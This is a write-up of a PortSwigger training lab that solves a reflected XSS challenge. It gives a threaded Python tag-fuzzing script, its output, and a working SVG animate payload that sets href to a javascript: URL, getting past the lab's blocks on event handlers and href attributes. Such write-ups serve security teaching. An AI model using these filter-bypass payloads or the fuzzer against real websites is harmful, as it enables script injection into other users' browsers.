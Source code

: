 # Reflected XSS with event handlers and `href` attributes blocked | Jan 1, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-event-handlers-and-href-attributes-blocked), you'll learn: Reflected XSS with event handlers and `href` attributes blocked! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★☆☆☆☆☆☆

## Background

This lab contains a [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability with some whitelisted tags, but all events and anchor `href` attributes are blocked.

To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that injects a vector that, when clicked, calls the `alert` function.

Note that you need to label your vector with the word "Click" in order to induce the simulated lab user to click your vector. For example:

```html
<a href="">Click me</a>
```

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-25/images/Pasted%20image%2020230101053709.png)

In here, we can see there is a search box.

Let's search something:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-25/images/Pasted%20image%2020230101053731.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-25/images/Pasted%20image%2020230101053754.png)

As you can see, our input is reflected to the web page.

Let's try to inject a JavaScript code:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-25/images/Pasted%20image%2020230101054141.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-25/images/Pasted%20image%2020230101054148.png)

However, the application blocks us.

**Let's fuzz usable tags via a python script:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def sendRequest(tag):
    payload = f'<{tag}>'
    url = f'https://0af200f90416972dc03527bf001500b1.web-security-academy.net/?search={payload}'

    requestResult = requests.get(url)

    if 'Tag is not allowed' not in requestResult.text:
        print(f'[+] Found valid tag: {payload}')

def main():
    # From PortSwigger's Cross-site scripting (XSS) cheat sheet:
    # https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
    listTags = ['a', 'a2', 'abbr', 'acronym', 'address', 'animate', 'animatemotion', 'animatetransform', 'applet', 'area', 'article', 'aside', 'audio', 'audio2', 'b', 'bdi', 'bdo', 'big', 'blink', 'blockquote', 'body', 'br', 'button', 'canvas', 'caption', 'center', 'cite', 'code', 'col', 'colgroup', 'command', 'content', 'custom tags', 'data', 'datalist', 'dd', 'del', 'details', 'dfn', 'dialog', 'dir', 'div', 'dl', 'dt', 'element', 'em', 'embed', 'fieldset', 'figcaption', 'figure', 'font', 'footer', 'form', 'frame', 'frameset', 'h1', 'head', 'header', 'hgroup', 'hr', 'html', 'i', 'iframe', 'iframe2', 'image', 'image2', 'image3', 'img', 'img2', 'input', 'input2', 'input3', 'input4', 'ins', 'kbd', 'keygen', 'label', 'legend', 'li', 'link', 'listing', 'main', 'map', 'mark', 'marquee', 'menu', 'menuitem', 'meta', 'meter', 'multicol', 'nav', 'nextid', 'nobr', 'noembed', 'noframes', 'noscript', 'object', 'ol', 'optgroup', 'option', 'output', 'p', 'param', 'picture', 'plaintext', 'pre', 'progress', 'q', 'rb', 'rp', 'rt', 'rtc', 'ruby', 's', 'samp', 'script', 'section', 'select', 'set', 'shadow', 'slot', 'small', 'source', 'spacer', 'span', 'strike', 'strong', 'style', 'sub', 'summary', 'sup', 'svg', 'table', 'tbody', 'td', 'template', 'textarea', 'tfoot', 'th', 'thead', 'time', 'title', 'tr', 'track', 'tt', 'u', 'ul', 'var', 'video', 'video2', 'wbr', 'xmp']

    for tag in listTags:
        thread = Thread(target=sendRequest, args=(tag,))
        thread.start()
        sleep(0.2)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Cross-Site-Scripting]
└─# python3 tag_fuzzing.py
[+] Found valid tag: <a>
[+] Found valid tag: <animate>
[+] Found valid tag: <image>
[+] Found valid tag: <svg>
[+] Found valid tag: <title>
```

**Let's go to PortSwigger's [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) to choose a payload:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-25/images/Pasted%20image%2020230101055619.png)

`svg -> animate` looks good.

```html
<svg><animate onbegin=alert(1) attributeName=x dur=1s>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-25/images/Pasted%20image%2020230101055734.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-25/images/Pasted%20image%2020230101055740.png)

Hmm... `Event is not allowed`.

**Now, we can use the `attributeName` attribute, and `<a>` tag to create a link:**
```html
<svg><a><animate attributeName=href values=javascript:alert(document.domain)></animate><text x=100 y=100>Click me</text></a>
```

**Beautified:**
```html
<svg>
<a>
    <animate attributeName=href values=javascript:alert(document.domain)></animate>
    <text x=100 y=100>Click me</text>
</a>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-25/images/Pasted%20image%2020230101060745.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-25/images/Pasted%20image%2020230101060753.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-25/images/Pasted%20image%2020230101060759.png)

Nice!

# What we've learned:

1. Reflected XSS with event handlers and `href` attributes blocked